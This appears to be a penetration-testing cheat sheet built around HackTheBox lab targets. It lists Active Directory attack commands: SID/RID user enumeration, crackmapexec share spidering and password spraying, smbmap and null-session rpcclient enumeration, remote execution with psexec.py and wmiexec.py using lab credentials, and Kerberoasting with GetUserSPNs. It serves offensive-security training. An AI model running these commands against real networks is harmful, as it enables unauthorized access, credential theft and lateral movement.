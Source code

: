 ```
lookupsid.py 0xdf@manager.htb -no-pass
```
```
oxdf@hacky$ lookupsid.py 0xdf@manager.htb -no-pass | grep SidTypeUser | cut -d' ' -f2 | cut -d'\' -f2 | tr '[:upper:]' '[:lower:]' | tee users
```

### Spider_plus run against a specific share
```
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares’
```
```
head -n 10 /tmp/cme_spider_plus/172.16.5.5.json 
```
### Password Spraying without bruteforce
```
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes --no-bruteforce
```
```
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords --no-bruteforce
```
## SMBMap
### Check Access
```
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```
**CASE SENSITIVE FOR DOMAIN**
### Recursive List Of All Directories
```
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
```
## rpcclient
```
rpcclient -U "" -N 172.16.5.5
```
### User Enumeration By RID
```
enumdomusers
```
```
queryuser <RID>
```
## Impacket
### Psexec.py
```
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```
### wmiexec.py
```
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```
### Get-UserSPNs
```
impacket-GetUserSPNs -dc-ip 10.10.10.100 ACTIVE.HTB/svc_tgs -request
```
## Windapsearch 